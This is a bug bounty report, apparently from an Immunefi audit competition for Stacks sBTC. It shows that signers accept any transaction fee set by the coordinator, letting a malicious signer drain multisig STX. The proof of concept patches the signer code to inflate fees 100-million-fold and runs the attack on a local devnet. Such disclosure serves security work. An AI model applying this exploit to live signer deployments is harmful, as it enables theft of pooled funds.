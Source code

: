 # #38392 \[BC-High] Signer can steal STX tokens in multi-sign wallet by setting a high stacks tx fee

**Submitted on Jan 2nd 2025 at 10:52:58 UTC by @f4lc0n for** [**Attackathon | Stacks**](https://immunefi.com/audit-competition/stacks-attackathon-1)

* **Report ID:** #38392
* **Report Type:** Blockchain/DLT
* **Report severity:** High
* **Target:** https://github.com/stacks-network/sbtc/tree/immunefi\_attackaton\_0.9/signer
* **Impacts:**
  * Direct loss of funds

## Description

## Brief/Intro

When a signer acts as a coordinator, it will initiate some sBTC stacks contract calls. And he can set the tx fee for these contract calls. These tx fees will be rewarded to the miners of the stacks chain.

The problem now is that signers do not check the tx fee set by the coordinator. Therefore, a malicious signer can set a very large tx fee to reward the multi-sign wallet's STX to the stacks miner. And he can cooperate with the stacks miner to steal this amount of funds.

## Vulnerability Details

The `signer/src/transaction_signer.rs::handle_stacks_transaction_sign_request` code is as follow.

```rust
    async fn handle_stacks_transaction_sign_request(
        &mut self,
        request: &StacksTransactionSignRequest,
        bitcoin_chain_tip: &model::BitcoinBlockHash,
        origin_public_key: &PublicKey,
    ) -> Result<(), Error> {
        let instant = std::time::Instant::now();
        let validation_status = self
            .assert_valid_stacks_tx_sign_request(request, bitcoin_chain_tip, origin_public_key)
            .await;

        metrics::histogram!(
            Metrics::ValidationDurationSeconds,
            "blockchain" => STACKS_BLOCKCHAIN,
            "kind" => request.tx_kind(),
        )
        .record(instant.elapsed());
        metrics::counter!(
            Metrics::SignRequestsTotal,
            "blockchain" => STACKS_BLOCKCHAIN,
            "kind" => request.tx_kind(),
            "status" => if validation_status.is_ok() { "success" } else { "failed" },
        )
        .increment(1);
        validation_status?;

        // We need to set the nonce in order to get the exact transaction
        // that we need to sign.
        let wallet = SignerWallet::load(&self.context, bitcoin_chain_tip).await?;
        wallet.set_nonce(request.nonce);

        let multi_sig = MultisigTx::new_tx(&request.contract_tx, &wallet, request.tx_fee);
        let txid = multi_sig.tx().txid();

        debug_assert_eq!(txid, request.txid);

        let signature = crate::signature::sign_stacks_tx(multi_sig.tx(), &self.signer_private_key);

        let msg = message::StacksTransactionSignature { txid, signature };

        self.send_message(msg, bitcoin_chain_tip).await?;

        Ok(())
    }
```

In the above code, it does not do any check on `request.tx_fee`. Therefore, a malicious signer can set any `tx_fee`, and all other signers will agree to this `tx_fee`.

## Impact Details

It will cause signers multi-signature wallets to lose STX tokens.

If the malicious signer and miner cooperate, the malicious signer can benefit from it.

## References

None

## Proof of Concept

## Proof of Concept

1. Base on: https://github.com/stacks-network/sbtc/releases/tag/0.0.9-rc4
2.  Patch `signer/src/config/mod.rs`, add attacker flag config

    ```diff
         /// The minimum bitcoin block height for which the sbtc signers will
         /// backfill bitcoin blocks to.
         pub sbtc_bitcoin_start_height: Option<u64>,
    +    /// @audit;
    +    pub audit_this_signer_is_attacker: Option<bool>,
     }
     
     impl Validatable for SignerConfig {
    ```
3.  Patch `signer/src/main.rs`, load attacker flag

    ```diff
         );
     
         // Load the configuration file and/or environment variables.
    -    let settings = Settings::new(args.config)?;
    +    let mut settings = Settings::new(args.config)?;
    +    std::thread::sleep(std::time::Duration::from_millis(2000)); // wait for the `docker logs` command
    +    settings.signer.audit_this_signer_is_attacker = match std::env::var("AUDIT_THIS_SIGNER_IS_ATTACKER") {
    +        Ok(value) => Some(value.parse::<bool>().unwrap()),
    +        _ => Some(false),
    +    };
    +    tracing::info!("@audit; audit_this_signer_is_attacker: {:?}", settings.signer.audit_this_signer_is_attacker);
         signer::metrics::setup_metrics(settings.signer.prometheus_exporter_endpoint);
     
         // Open a connection to the signer db.
    ```
4.  Patch `docker/docker-compose.yml`, add attacker flag

    ```diff
           - postgres-3
         environment:
           <<: *sbtc-signer-environment
    +      AUDIT_THIS_SIGNER_IS_ATTACKER: true
           SIGNER_SIGNER__DB_ENDPOINT: postgresql://postgres:postgres@postgres-3:5432/signer
           SIGNER_SIGNER__PRIVATE_KEY: 3ec0ca5770a356d6cd1a9bfcbf6cd151eb1bd85c388cc00648ec4ef5853fdb7401
           SIGNER_SIGNER__P2P__SEEDS: tcp://sbtc-signer-1:4122,tcp://sbtc-signer-2:4122
    ```
5.  Patch `signer/src/transaction_coordinator.rs`, add attack action

    ```diff
              // Complete deposit requests should be done as soon as possible, so
              // we set the fee rate to the high priority fee.
     -        let tx_fee = self
     +        let mut tx_fee = self
                  .context
                  .get_stacks_client()
                  .estimate_fees(wallet, &contract_call, FeePriority::High)
                  .await?;
     +        // @audit; start
     +        if self.context.config().signer.audit_this_signer_is_attacker.is_some_and(|x| x) {
     +            tx_fee = tx_fee * 100000000;
     +            tracing::info!("@audit; attacker set large tx fee, tx_fee: {:?}", tx_fee);
     +        }
     +        // @audit; end
     
              let multi_tx = MultisigTx::new_tx(&contract_call, wallet, tx_fee);
              let tx = multi_tx.tx();
    ```
6.  Run docker

    ```sh
    make devenv-up
    make devenv-down
    docker compose -f docker/docker-compose.yml --profile default --profile bitcoin-mempool --profile sbtc-signer build
    make devenv-up
    ```
7. This PoC sets _sbtc-signer-3_ as an attacker, which will automatically attack if it is the coordinator
8.  Keep running the demo until the trigger the coordinator is _sbtc-signer-3_. You can observe the log of _sbtc-signer-3_. When `"@audit; attacker set large tx fee"` appears, it is triggered.

    ```sh
    ./signers.sh demo
    ```
9. Track the transaction initiated by _sbtc-signer-3_ on [explorer](https://explorer.hiro.so/address/SN3R84XZYA63QS28932XQF3G1J8R9PC3W76P9CSQS?chain=testnet\&api=http://localhost:3999), and you will find that it consumes a lot of STX
